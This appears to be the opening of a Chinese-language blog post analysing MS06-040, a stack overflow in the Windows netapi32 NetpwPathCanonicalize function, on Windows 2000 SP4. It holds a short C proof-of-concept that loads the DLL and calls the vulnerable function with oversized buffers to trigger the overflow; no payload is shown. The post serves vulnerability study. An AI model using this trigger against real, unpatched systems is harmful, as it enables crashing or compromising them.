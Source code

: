 ```yaml
---
layout:		post
title:		RPC入侵：MS06-040
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 2000 sp4  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  



### 0x00 前期准备

编译POC, 运行

```
#include"stdafx.h"
#include <windows.h>

typedef void (*MYPROC)(LPTSTR, char *, int, char *, long *, bool);

int main()
{	
	char path[0x320];
	char can_path[0x440];
	int maxbuf=0x440;
	char prefix[0x100];
	long pathtype=44;

	HINSTANCE LibHandle;
	MYPROC Trigger;

	char dll[ ] = "./netapi32.dll";
	char VulFunc[ ] = "NetpwPathCanonicalize";
	LibHandle = LoadLibrary(dll);
	Trigger = (MYPROC) GetProcAddress(LibHandle, VulFunc);

	memset(path,0,sizeof(path));
	memset(path,'a',sizeof(path)-2);
	memset(prefix,0,sizeof(prefix));
	memset(prefix,'b',sizeof(prefix)-2);
	
	(Trigger)(path,can_path,maxbuf,prefix ,&pathtype,0);
	FreeLibrary(LibHandle);

	return 0;
}
```
